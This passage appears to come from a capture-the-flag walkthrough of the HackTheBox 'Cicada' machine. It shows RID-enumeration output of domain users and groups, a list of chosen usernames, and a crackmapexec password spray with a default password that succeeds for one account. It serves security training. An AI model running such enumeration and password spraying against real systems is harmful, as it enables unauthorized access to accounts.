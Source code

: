 ```bash
SMB         10.10.11.35     445    CICADA-DC        522: CICADA\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        525: CICADA\Protected Users (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        526: CICADA\Key Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        527: CICADA\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        553: CICADA\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1101: CICADA\DnsAdmins (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        1102: CICADA\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1103: CICADA\Groups (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```

<br />

There are a lot of users listed.

We select the most interesting ones and save them into a file called `users.txt`:

<br />

```bash
Administrator
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
Dev
emily.oscars
```

<br />

Now, we can test the `default password` against each user in the file:

<br />

```bash
❯ cme smb cicada.htb -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'
SMB         10.10.11.35     445    CICADA-DC        [*] Windows 10.0 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\Administrator:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
```
